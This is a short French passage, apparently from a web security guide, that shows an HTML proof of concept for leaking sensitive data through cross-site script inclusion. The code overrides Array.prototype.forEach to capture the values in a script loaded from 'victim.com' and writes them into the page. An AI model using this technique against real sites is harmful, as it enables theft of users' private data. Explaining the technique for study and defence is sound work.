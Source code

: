 Les données sensibles peuvent être divulguées avec le code JavaScript suivant :

```html
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Your secret values are: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
